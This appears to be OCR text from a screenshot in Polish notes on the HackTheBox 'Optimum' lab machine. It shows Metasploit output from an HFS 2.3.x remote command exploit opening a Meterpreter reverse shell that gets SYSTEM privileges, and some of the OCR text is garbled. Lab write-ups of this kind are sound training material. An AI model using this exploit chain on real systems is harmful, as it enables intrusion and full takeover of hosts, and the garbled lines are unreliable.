 ![](Maszyny/Windows/Optimum/Pasted%20image%2020210811171841.png)

K2YTIMEQ3127 IU8i1KwvQ6dDDfx9Enee TP File Server (HES) 2.3.X Remote Command
[+] Executed on target machine.
[*] Sending stage (200262 bytes) to 10.10.10.8 erver (HFSC Remote Command ecoTE
[*] Meterpreter session 6 opened (10.10.14.19:4444 → 10.10.10.8:49263) at 2021-08-11 17:13:09 +0200
[+] Deleted C:\Users\kostas\AppData\Local\Temp\zfNtsVPJJh.ps1
meterpreter > getuid
...db.com Tumaczenie strony
Server username: NT AUTHORITY\SYSTEM
